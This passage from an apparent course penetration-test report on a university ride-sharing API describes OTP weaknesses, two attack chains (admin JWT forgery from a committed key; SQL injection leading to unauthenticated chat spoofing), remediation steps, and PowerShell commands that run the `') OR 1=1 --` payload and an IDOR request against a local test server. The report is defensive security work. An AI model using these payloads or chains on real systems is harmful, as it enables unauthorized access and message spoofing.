OtpStore[dto.UniversityEmail] = otp;
```

**Root cause:** OTPs use `System.Random`, are stored in memory, and have no visible expiry, attempt limit, resend throttle, or lockout.

**Impact:** attackers can repeatedly request or guess OTPs. The in-memory store also breaks across restarts and does not provide auditable verification state.

**Recommended fix:**

- Use `RandomNumberGenerator.GetInt32(100000, 1000000)`.
- Store OTP hashes with expiry timestamps.
- Add per-email and per-IP rate limits.
- Limit verification attempts and log failed attempts.

## 8. Attack Chains

### Chain 1 - Repository Access to Admin API Access

1. Attacker reads the public repository.
2. Attacker extracts the committed JWT signing key or default admin credentials from configuration.
3. Attacker either logs in as admin or forges an admin JWT.
4. Attacker calls `/api/admin/users`, `/api/admin/rides`, `DELETE /api/admin/users/{id}`, or `PATCH /api/admin/rides/{id}/cancel`.

**Verified step:** forged admin JWT successfully called `/api/admin/stats`.

**Business impact:** full administrative compromise. In the local dataset this exposes 9 users and 3 rides. In production it would allow broad data access and destructive account/ride actions.

### Chain 2 - Passenger SQLi to Ride Enumeration to Chat Abuse

1. Attacker authenticates as any passenger.
2. Attacker injects `') OR 1=1 --` into ride search.
3. Attacker obtains ride IDs that normal search did not return.
4. Attacker connects to `/hubs/chat` without authentication.
5. Attacker joins `ride_<id>` and sends spoofed ride messages.

**Verified steps:** SQLi returned 3 rides; unauthenticated SignalR client joined ride group 24 and invoked `SendMessage`.

**Business impact:** ride privacy loss and trusted-message abuse. A realistic attacker could send fake pickup changes, payment instructions, or cancellation messages.

## 9. Automated Tool Coverage

| Tool / Stage | Current Pipeline Evidence | Findings It Should Catch | Gap |
|---|---|---|---|
| SAST - SonarCloud | `.github/workflows/devsecops.yml` job `sast` | Some code smells and injection patterns | Business logic and committed secrets may need extra rules |
| SCA - Dependency-Check | CI job with `--failOnCVSS 7` | NuGet and some dependency CVEs | Frontend `npm audit` also shows issues; ensure Node dependencies are included in CI artifacts |
| DAST - OWASP ZAP API Scan | CI starts backend, gets JWT, scans OpenAPI | Missing headers, auth errors, basic injection payloads | ZAP may not discover IDOR, JWT forgery, default credentials, or SignalR misuse without custom scripts |
| Manual pentest | This report | RBAC, IDOR, JWT, SQLi, SignalR, data exposure | Requires screenshots on deployed HTTPS target for presentation |

## 10. False Positives and Non-Findings

| Item Reviewed | Decision | Reason |
|---|---|---|
| Frontend admin route visible in React router | Not reported as standalone vulnerability | Backend admin APIs enforce `[Authorize(Roles = "admin")]`. The real issue is JWT/key compromise, not route visibility. |
| CORS policy | Not reported | Origins are configured as specific localhost HTTPS values, not `AllowAnyOrigin`. |
| Swagger exposure | Not reported for production | Swagger is only enabled in `Development` environment in `Program.cs`. |
| SQLi destructive write impact | Not claimed | The verified endpoint is a `SELECT` query. The report claims data exposure/filter bypass, not confirmed data modification through this endpoint. |

## 11. Business Impact

| Impact Area | What Could Happen |
|---|---|
| Rider safety | Spoofed chat messages could misdirect passengers or drivers. |
| Privacy | User names, emails, phone numbers, ride locations, and ride history can be exposed. |
| Operations | Forged admin tokens can delete users or cancel rides. |
| Trust | Public secrets and committed databases signal poor operational security. |
| Compliance | Exposed PII may violate university privacy expectations and data handling policies. |

## 12. Remediation Handoff

The remediation report should show code commits, pipeline reruns, and re-test evidence for each item:

| Finding | Required Fix Evidence |
|---|---|
| F-01 | Replace raw SQL with LINQ/parameters; re-run SQLi payload and show 400/404/no bypass. |
| F-02 | Enforce self-only profile access; show cross-user request returns 403. |
| F-03 | Add `[Authorize]` and membership checks; show unauthenticated SignalR PoC fails. |
| F-04 | Remove default admin secrets; use environment variables; rotate admin password. |
| F-05 | Rotate JWT key; remove from Git; show old forged token rejected. |
| F-06 | Remove DB files from Git, add ignore rules, purge history if public, replace with seed data. |
| F-07 | Upgrade dependencies; show `npm audit` and Dependency-Check pass quality gates. |
| F-08 | Use cryptographic OTPs, expiry, rate limits; show replay/guess attempts fail. |

## 13. Appendix A - Commands Used

### Start API for Local Verification

```powershell
dotnet build backend/UniRide.Api.csproj /p:BuildProjectReferences=false --configuration Release

$env:ASPNETCORE_ENVIRONMENT = "Development"
dotnet backend/bin/Release/net8.0/UniRide.Api.dll --urls http://127.0.0.1:5007
```

### Login as Passenger Test Account

```powershell
$body = @{
  universityEmail = "<test-or-admin-email>"
  password = "<test-password>"
  role = "passenger"
} | ConvertTo-Json

$login = Invoke-RestMethod -Method Post `
  -Uri "http://127.0.0.1:5007/api/auth/login" `
  -ContentType "application/json" `
  -Body $body
```

### SQL Injection Verification

```powershell
$headers = @{ Authorization = "Bearer $($login.token)" }
$payload = [System.Uri]::EscapeDataString("') OR 1=1 --")

Invoke-RestMethod `
  -Method Get `
  -Uri "http://127.0.0.1:5007/api/ridesearch/search?query=$payload" `
  -Headers $headers
```

### IDOR Verification

```powershell
Invoke-RestMethod `
  -Method Get `
  -Uri "http://127.0.0.1:5007/api/passengerprofile/user/1" `
  -Headers $headers
```

### SignalR Verification

```powershell
docker run --rm -v "${PWD}:/src:ro" -w /tmp node:20-alpine sh -lc "
cp /src/package*.json .
npm ci --silent >/dev/null
node signalr-poc.js
"
```

### SCA Verification

```powershell
docker run --rm -v "${PWD}:/app" -w /app node:20-alpine npm audit --json
```

## 14. Appendix B - Evidence Capture Checklist

For the final presentation and remediation report, capture screenshots on the deployed HTTPS hostname or IP address:

1. GitHub Actions pipeline page showing SAST, SCA, and DAST jobs.
2. Uploaded Dependency-Check and ZAP artifacts.
3. Browser login as normal passenger and admin.
4. SQLi request and response in Postman, Burp, browser DevTools, or terminal.
5. IDOR request showing a redacted cross-user profile response.
6. JWT forgery PoC output showing admin stats with forged token.
7. SignalR PoC output showing unauthenticated group join and send invocation.
8. `npm audit` or Dependency-Check summary showing vulnerable packages before remediation.
9. Remediation re-test screenshots after fixes.
10. GitHub issue page linked to each commit using the course format, e.g. `fix #12: add exploitation report and PoC evidence`.
